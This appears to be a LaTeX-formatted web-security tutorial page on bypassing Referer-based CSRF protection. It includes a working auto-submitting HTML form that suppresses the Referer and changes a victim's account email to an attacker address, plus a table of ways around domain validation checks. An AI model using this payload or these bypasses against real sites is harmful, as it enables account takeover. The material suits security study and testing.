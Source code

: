 \documentclass{article}
\begin{document}
\subsubsection*{1. Exploiting Absent Referer Header}
\begin{tabular}{>{\raggedright\arraybackslash}p{}>{\raggedright\arraybackslash}p{}}
    \toprule
    \textbf{Vulnerability} & \textbf{Exploitation Method} \\
    \midrule
    Weak validation & Applications validate Referer when present but skip validation when header is absent \\
    Bypass method & Cause browser to omit Referer header in CSRF request \\
    Implementation & Use \texttt{<meta name="referrer" content="never">} in HTML header \\
    \bottomrule
\end{tabular}

\vspace{.25cm}

\textbf{Example CSRF PoC with Referer Suppression:}
\begin{lstlisting}[frame=single, basicstyle=\footnotesize\ttfamily]
<html>
  <head>
    <meta name="referrer" content="never">
  </head>
  <body>
    <form action="https://target.com/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com">
      <input type="submit" value="Submit">
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
\end{lstlisting}

\subsubsection*{2. Circumventing Domain Validation Logic}
\begin{tabular}{>{\raggedright\arraybackslash}p{}>{\raggedright\arraybackslash}p{}}
    \toprule
    \textbf{Validation Flaw} & \textbf{Bypass Technique} \\
    \midrule
    Starts-with validation & Place target domain as subdomain of attacker domain \\
    Contains validation & Include target domain in query string or path \\
    Regex weaknesses & Exploit poor regular expression patterns \\
    \bottomrule
\end{tabular}
\end{document}
